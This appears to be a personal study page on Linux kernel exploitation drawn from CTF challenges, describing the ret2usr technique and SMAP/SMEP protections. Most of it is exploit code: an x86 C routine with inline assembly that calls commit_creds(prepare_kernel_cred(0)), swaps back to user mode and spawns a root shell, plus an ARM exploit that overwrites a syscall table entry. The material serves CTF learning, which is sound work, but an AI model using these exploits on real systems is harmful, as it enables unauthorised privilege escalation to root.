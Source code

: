
## [LinuxKernelPwn](https://www.digitalwhisper.co.il/files/Zines/0x6F/DW111-1-LinuxKernelPwn.pdf)exploit
1. save the process state (`flags, rsp, ss, cs`)
2. while in kernel mode return to your exploit which 
* `commit_creds(prepare_kernel_cred(0));` , you can get their location by reading `/proc/kallsyms` (kernel all symbols)
* return to user mode (`swapgs` & `iretq`) and `system(/bin/sh)`

## [Knote](https://pwning.tech/knote/)

uses the same technique here's the exploit code

```c
long prepare_kernel_cred = 0xDEADC0D3;
long commit_creds = 0xDEADC0DE;
long _proc_cs, _proc_ss, _proc_rsp, _proc_rflags = 0;

void set_ctx_reg() {
    __asm__(".intel_syntax noprefix;"
            "mov _proc_cs, cs;"
            "mov _proc_ss, ss;"
            "mov _proc_rsp, rsp;"
            "pushf;" // push rflags
            "pop _proc_rflags;"
            ".att_syntax");

    printf("[+] CS: 0x%lx, SS: 0x%lx, RSP: 0x%lx, RFLAGS: 0x%lx\n", _proc_cs, _proc_ss, _proc_rsp, _proc_rflags);
}


void spawn_shell()
{
    puts("[+] Hello Userland!");
    int uid = getuid();
    if (uid == 0)
        printf("[+] UID: %d (root poggers)\n", uid);
    else {
        printf("[!] UID: %d (epic fail)\n", uid);
    }

    puts("[*] starting shell");
    system("/bin/sh");

    puts("[*] quitting exploit");
    exit(0); // avoid ugly segfault
}

void privesc_ctx_swp()
{
    __asm__(".intel_syntax noprefix;"
            /**
             * struct cred *prepare_kernel_cred(struct task_struct *daemon)
             * @daemon: A userspace daemon to be used as a reference
             *
             * If @daemon is supplied, then the security data will be derived from that;
             * otherwise they'll be set to 0 and no groups, full capabilities and no keys.
             *
             * Returns the new credentials or NULL if out of memory.
             */
            "xor rdi, rdi;"
            "movabs rax, prepare_kernel_cred;"
            "call rax;" // prepare_kernel_cred(0)

            /**
             * int commit_creds(struct cred *new)
             * @new: The credentials to be assigned
             */
            "mov rdi, rax;" // RAX contains cred pointer
            "movabs rax, commit_creds;"
            "call rax;"

            // setup the context swapping
            "swapgs;" // swap GS to userland

            "mov r15, _proc_ss;"
            "push r15;"
            "mov r15, _proc_rsp;"
            "push r15;"
            "mov r15, _proc_rflags;"
            "push r15;"
            "mov r15, _proc_cs;"
            "push r15;"
            "lea r15, spawn_shell;" // lea rip, spawn_shell ; when returning to userland
            "push r15;"
            "iretq;" // swap context to userland
            ".att_syntax;");
}
```

## Kernel protections
SMAP - Supervisor Mode Access Prevention, sets user-space memory mappings so that **access** to those mappings from supervisor mode will cause a trap.
SMEP - Supervisor Mode Execution Prevention, same as SMAP but for **execution**. (I could have used syscall in `CrabOS` if I disabled it)

### Arm Kernel Exploitation
https://github.com/xairy/linux-kernel-exploitation?tab=readme-ov-file#ctf-tasks
https://pwnfirstsear.ch/2020/05/10/spamandhexctf2020-secstore.html#secstore-1


```c
#include <sys/syscall.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define EXPLOIT 222
#define SYS_UPPER 223
#define SYS_CALL_TABLE 0x8000e348

long commit_creds = 0x8003f56c;
long prepare_kernel_creds = 0x8003f924;

void exploit() {
    puts("[+] redirected syscall execution");
    // volatile keyword idicates that the instuctions has important side-effects.
    asm volatile (
        "eor r0, r0\n"
        // "bl prepare_kernel_creds\n"
        // "bl commit_creds\n"
    );
    puts("[+] privileges escaleted");
    exit(0);        
}

int main(int argc, char *argv[]) {
    unsigned int** syscall_table = (unsigned int**)SYS_CALL_TABLE;
    char *entry_value = "\x89\x01\x03\x01";
    int hook_address = 0;
    printf("[*] exploit location: %p\n", (void *)exploit);
    
    // overwrite an empty syscall
    syscall(SYS_UPPER, entry_value, &syscall_table[EXPLOIT]);
    syscall(SYS_UPPER, &syscall_table[EXPLOIT], (char *)&hook_address);
    printf("[*] hook address: %p\n", (int *)hook_address);

    // triger hook
    exploit();
    // syscall(EXPLOIT);
    return 0;
}

/* 
gcc -Wl,--section-start=.text=0x1030110 sol.c -o sol
*/
```
